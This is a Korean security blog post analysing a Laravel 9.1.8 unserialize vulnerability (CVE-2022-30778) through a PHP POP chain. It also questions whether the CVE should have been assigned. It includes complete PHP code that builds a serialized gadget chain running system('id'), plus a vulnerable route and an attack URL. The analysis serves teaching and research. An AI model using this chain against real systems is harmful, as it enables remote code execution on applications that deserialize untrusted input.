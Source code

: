 ```yaml
---
title: "[하루한줄] unserialize가 위험한 이유 (feat. POP Chain)"
author: syru
tags: [syru, laravel, pop, php, magic method, property oriented programming, rce]
categories: [1day1line]
date: 2022-05-22 18:00:00
cc: true
---
```

### URL

https://github.com/1nhann/vulns/issues/1

### Target

- Laravel 9.1.8

### Prologue

이 글은 `unserialize` 가 위험한 이유와 `Property Oriented Programming` 기법을 활용하는 방법에 초점을 맞춰서 읽어주시면 감사하겠습니다

분석 글을 신나게 쓴 후 다시 소셜네트워크를 구경하는데 [이런 이야기](https://twitter.com/steventseeley/status/1526531480092037124)를 보게 되었습니다.

![Tweet claiming that shouldb't be get cve](cve-2022-30778/tweet.png)

이 CVE가 Laravel Framework 내부 `unserialize` 메소드를 사용하는 부분에서 발생하는 것이 아닌 사용자가 `unserialize` 를 사용하면 발생하는 부분이었고 이는 CVE 번호를 할당받으면 안 된다는 주장이었습니다.

필자도 CVE 할당에 문제가 있음을 느꼈는데요. 이 취약점을 다른 공격기법으로 비유하면 `gets`에 대해 ROP Chain가 터진다고 할당받은 것인데 이런 CVE는 수백 수천 개도 나올 수 있지요.

하지만 이 글은 공격기법에 대한 설명이 주를 이루고 있어서 독자분들에게 여전히 도움이 될 수 있다고 판단하여 내리지는 않겠습니다.

### Explain

Laravel 9.1.8 버전에서 유저 입력을 `unserialize` 메소드를 통해 역직렬화 한 후 사용할 때 POP chain을 통해 RCE 할 수 있는 취약점이 발견되었습니다.

PHP는 [Magic Method](https://www.php.net/manual/en/language.oop5.magic.php)라고 하여 프로그래머가 명시적으로 호출하지 않아도 자동으로 호출되는 메소드들이 있습니다. 이 Magic Method를 유저의 입력값으로 덮어씌워 일종의 gadget으로 사용할 수 있습니다. 이 gadget들을 활용하여 exploit chain을 구성한 것을 Property Oriented Programming Chain이라고 합니다.

해당 취약점에서 사용하는 gadget은`PendingBroadcast.__destruct`와 `Dispatcher.dispatch($command)` 입니다.

`PendingBroadcast` 인스턴스가 소멸될 때 `__destruct` 메소드가 자동으로 호출됩니다.

```php
class PendingBroadcast
{
    /**
     * The event dispatcher implementation.
     *
     * @var \Illuminate\Contracts\Events\Dispatcher
     */
    protected $events;
    ...
	// illuminate/broadcasting/PendingBroadcast.php#L70-L73
    public function __destruct()
    {
        $this->events->dispatch($this->event);
    }
	...
}
```

이 메소드는 event dispatcher의 `dispatch` 메소드를 호출해주기 때문에 dispatch 호출이 필요할 때 gadget으로 사용할 수 있습니다.

`Illuminate/Bus/Dispatcher`는 `Illuminate\Contracts\Events\Dispatcher` 의 구현체입니다.

```php
// illuminate/bus/Dispatcher.php#L74-L79
public function dispatch($command)
{
    return $this->queueResolver && $this->commandShouldBeQueued($command)
                    ? $this->dispatchToQueue($command)
                    : $this->dispatchNow($command);
}

// illuminate/bus/Dispatcher.php#L202-205
protected function commandShouldBeQueued($command)
{
    return $command instanceof ShouldQueue;
}

// illuminate/bus/Dispatcher.php#L219
public function dispatchToQueue($command)
{
    $connection = $command->connection ?? null;
    $queue = call_user_func($this->queueResolver, $connection);
		...
}
```

 해당 객체 내 `dispatchToQueue` 메소드를 확인해 보면 `call_user_func`  를 사용하여 `$connection`을 인자로 하는 `QueueResolver` callback을 호출하게 됩니다.  `queueResolver`와 `$connection`는 원하는 값으로 지정할 수 있으므로 결과적으로 우리가 원하는 값을 인자로 하여 원하는 함수를 실행할 수 있는 가젯으로 쓸 수 있습니다.

앞서 `dispatch`를 호출할 수 있는 가젯을 찾은 상태에서 `dispatchToQueue`를 가젯으로 사용하려면 몇 가지 조건이 필요합니다.

- `$this->queueResolver != null`
- `$command instanceof ShouldQueue` == `True`

이 조건 들을 생각하면서 `system(cmd)` 함수를 실행하도록 Property Oriented Programming을 다음과 같이 할 수 있습니다.

1. `ShouldQueue`인터페이스를 implement한 Event 객체를 하나 만듭니다.
2. `Dispatcher.__construct`를 통해서 `queueResolver`를 `system`으로 지정해줍니다.
3. `PendingBroadcast.__construct`를 통해서 (1)에서 만든 Event 객체와 (2)에서 만든 Dispatcher를 각각 `event`와 `events`에 할당해주고 `event->$connection`을 `cmd`로 지정해줍니다.

이렇게 만든 객체를 직렬화해주고 인자로 보내면 됩니다.

위 프로그래밍은 아래 코드처럼 진행하면 됩니다.
 ```php
<?php
namespace Illuminate\\Contracts\\Queue{
    interface ShouldQueue
    {
        //
    }
}

namespace Illuminate\\Bus{
    class Dispatcher{
        protected $container;
        protected $pipeline;
        protected $pipes = [];
        protected $handlers = [];
        protected $queueResolver;
        function __construct()
        {
            $this->queueResolver = "system";

        }
    }
}

namespace Illuminate\\Broadcasting{

    use Illuminate\\Contracts\\Queue\\ShouldQueue;

    class BroadcastEvent implements ShouldQueue {
        function __construct()
        {

        }
    }
    class PendingBroadcast{
        protected $events;
        protected $event;
        function __construct()
        {
            $this->event = new BroadcastEvent();
            $this->event->connection = "id";
            $this->events = new \\Illuminate\\Bus\\Dispatcher();
        }
    }
}
namespace{
    $a = new \\Illuminate\\Broadcasting\\PendingBroadcast();
    echo base64_encode(serialize($a));
}
?>
 ```
base64 encoding되어 나온 직렬화된 exploit은 아래와 같은 구조에서 RCE를 유발할 수 있습니다.

```php
<?php
use Illuminate\\Support\\Facades\\Route;

/*
|--------------------------------------------------------------------------
| Web Routes
|--------------------------------------------------------------------------
|
| Here is where you can register web routes for your application. These
| routes are loaded by the RouteServiceProvider within a group which
| contains the "web" middleware group. Now create something great!
|
*/

Route::get('/', function (\\Illuminate\\Http\\Request $request) {
    $serializedObj = base64_decode($request->input("q"));
    unserialize($serializedObj);
    return "ok";
});
?>
/*   Attack Example
 *   <http://site/?q={generated_base64_code}>
 */
```
